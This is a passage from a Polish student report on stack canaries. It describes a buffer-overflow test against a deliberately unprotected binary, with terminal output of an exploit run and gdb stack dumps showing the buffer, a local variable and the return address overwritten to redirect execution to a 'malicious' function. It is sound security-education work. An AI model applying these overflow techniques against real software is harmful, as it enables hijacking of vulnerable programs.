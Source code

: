 </font>

Testy zacząłem od programu skompilowanego bez zabezpieczeń. Jak widać na wydruku z terminala, eksploit wykonał swoje zadanie i nic nie stanęło na jego drodze. Przepełnienie bufora nadpisało odpowiednią zmienną oraz adres powrotu funkcji, który teraz wskazywał na funkcję  `malicious`. Komunikat `Segmentation fault (core dumped)` nie oznacza nawet ostrzeżenia o ewentualnym wykryciu przepełnienia bufora, a jedynie informuje, że nie udało się wykonać instrukcji, na którą wskazywał instruction pointer po wykonaniu funkcji `malicious`. 

<font size=1>

```
mb@ubuntu:~/Desktop/projekt_bso/StackCanaries$ python3 exploit.py | ./unsafe
Local variable modified!!!
Code flow changed!!!
Segmentation fault (core dumped)
```

</font>

Na poniższym wydruku widać fragment stosu przed i po wywołaniu funkcji `gets`. Tak jak można się było spodziewać, zmienna `some_variable` została umieszona na stosie za buforem, a za bezpośrednio za nią znajdowały się `SFP` i `RET`. 

<font size=1>

```assembly
=> 0x401193 <main+38>:	callq  0x401060 <gets@plt>
0x7fffffffdfb0:	0x00007fffffffe108	0x00000001000000c2 
0x7fffffffdfc0:	0x00007fffffffdfe7	0x00007ffff7e83b4c # -| 
0x7fffffffdfd0:	0x00007fffffffe030	0x000000000040120d #  | bufor
0x7fffffffdfe0:	0x0000000000000000	0x0000000000000000 #  |
0x7fffffffdff0:	0x00000000004011c0	0x0000000000401070 # -|
0x7fffffffe000:	0x00007fffffffe100	0x0000000700000000 #
#                                     ^^^^^^^^ <- some_variable (4 bajty)
0x7fffffffe010:	0x00000000004011c0	0x00007ffff7df3cb2
#        SFP -> ^^^^^^^^^^^^^^^^^^  ^^^^^^^^^^^^^^^^^^ <- RET

Breakpoint 1, 0x0000000000401193 in main ()
(gdb) c
Continuing.
=> 0x401198 <main+43>:	mov    -0x4(%rbp),%eax
0x7fffffffdfb0:	0x00007fffffffe108	0x00000001000000c2 
0x7fffffffdfc0:	0x4141414141414141	0x4141414141414141 # -|
0x7fffffffdfd0:	0x4141414141414141	0x4141414141414141 #  | bufor
0x7fffffffdfe0:	0x4141414141414141	0x4141414141414141 #  |
0x7fffffffdff0:	0x4141414141414141	0x4141414141414141 # -|
0x7fffffffe000:	0x4242424242424242	0x4343434342424242 
#                                     ^^^^^^^^ <- some_variable (4 bajty)
0x7fffffffe010:	0x4444444444444444	0x0000000000401156 #
#        SFP -> ^^^^^^^^^^^^^^^^^^  ^^^^^^^^^^^^^^^^^^ <- RET

Breakpoint 2, 0x0000000000401198 in main ()
```
